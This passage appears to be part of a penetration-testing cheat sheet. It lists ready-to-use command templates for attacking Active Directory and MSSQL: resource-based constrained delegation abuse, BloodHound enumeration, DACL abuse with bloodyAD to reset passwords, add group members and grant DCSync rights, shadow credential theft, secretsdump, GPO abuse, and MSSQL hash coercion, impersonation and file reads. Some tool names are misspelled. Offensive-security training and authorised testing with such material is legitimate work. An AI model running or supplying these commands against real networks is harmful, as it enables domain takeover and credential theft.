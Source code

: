                 *   `nxc smb [DC_IP] -u "FAKE$" -p password123 --delegate Administrator --self [CREDENTIAL_DUMPING_FLAGS]`
            *   User Account
                *   `rbcd.py [AUTH_STRING] -delegate-from '[USER]' -delegate-to '[DC_FQDN]$' -dc-ip '[DC_IP]' -action 'write'`
                *   `nxc smb [DC_IP] -u [USER] -p/H [PASS/HASH] --delegate Administrator [CREDENTIAL_DUMPING_FLAGS]`
    *   [DACL Abuse](https://www.thehacker.recipes/ad/movement/dacl/)
        *   Enumeration
            *   `bloodhound-python -u [USER] -p [PASS] [--hashes HASH] -ns [DC_IP] -d [DOMAIN] -c all --zip [--dns-tcp]`
            *   Mark Owned + Outbound Controls / Shortest Paths + Abuse Functions
        *   Exploitation
            *   Set Ownership
                *   `bloodyAD --host "[DC_IP]" -d "[DOMAIN]" [AUTH_STRING] set owner "[OBJECT]" "[USER]"`
            *   Set GenericAll / FullControl
                *   `bloodyAD --host "[DC_IP]" -d "[DOMAIN]" [AUTH_STRING] add genericall "[OBJECT]" “[USER]”`
                *   `dacledit.py -action 'write' -rights 'FullControl' -principal '[USER] -target '[OBJECT]' [AUTH_STRING]`
            *   Shadow Hash Steal 
                *   `certipy-ad shadow auto [AUTH_STRING] -account "[TARGET_USER]" -dc-ip [DC_IP]`
            *   Password Reset
                *   `bloodyAD --host "[DC_IP]" -d "[DOMAIN]" [AUTH_STRING] set password "[TARGET_USER]" "[PASS]"`
            *   Add Group Member
                *   `bloodyAD --host "[DC_IP]" -d "[DOMAIN]" [AUTH_STRING] add groupMember "[GROUP]" “[USER]”`
            *   Targeted ASREPRoast
                *   `bloodyAD --host "[DC_IP]" -d "[DOMAIN]" [AUTH_STRING] add uac [USER] -f DONT_REQ_PREAUTH`
            *   Set DCSync
                *   `bloodyAD --host "[DC_IP]" -d "[DOMAIN]" [AUTH_STRING] add dcsync "[USER]"`
                *   `secretsdumpy.py [AUTH_STRING]` → On DC
            *   GPO Escalation
                *   `pygpoabuse [AUTH_STRING] -gpo-id "[GPO_ID]"`
                *   From Local Session → `gpupdate /force`
            *   Enable Account
                *   `bloodyAD --host "[DC_IP]" -d "[DOMAIN]" [AUTH_STRING] remove uac [USER] -f ACCOUNTDISABLE`
*   MSSQL
    *   `mssqclient.py [AUTH_STRING] [-windows-auth]`
    *   User Permissions
        *   `SELECT * FROM fn_my_permissions(NULL, 'SERVER');`
        *   Check Admin / Read / Write / Directives
    *   DB Dumping
        *   `enum_db` → `use [DB_NAME]`
        *   `SELECT TABLE_NAME FROM [DB].INFORMATION_SCHEMA.TABLES;`
        *   `SELECT * FROM [TABLE];`
    *   LLMNR
        *   `EXEC master..xp_dirtree '\\[RESPONDER_IP]\x'`
        *   Cracking        → `hashcat -m 5600`
        *   Service Hash → Impersonate Administrator + RCE
    *   User Impersonation
        *   NXC
            *   `nxc mssql [IP] [AUTH_STRING] -M mssql_priv`
            *   `nxc mssql [IP] [AUTH_STRING] -M mssql_priv -o ACTION=privesc`
            *   `nxc mssql [IP] [AUTH_STRING] -q '[MSSQL_QUERY]'`
        *   Manual
            *   `SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'`
            *   `EXECUTE AS LOGIN = ‘[PRIVILEGED_USER]’`
    *   OS Read / Upload
        *   Download              → `nxc mssql [IP] [AUTH_STRING] --get-file C:\\[SRC] [OUT]`
        *   Upload                    → `nxc mssql [IP] [AUTH_STRING] --put-file [SRC] C:\\Windows\\Temp\\[OUT]`
        *   Directory Listing   → `EXEC master..xp_dirtree [OS_DIR]`
        *   File Read                 → `SELECT * FROM OPENROWSET(BULK N'[PATH\\TO\\FILE]', SINGLE_CLOB) AS Contents`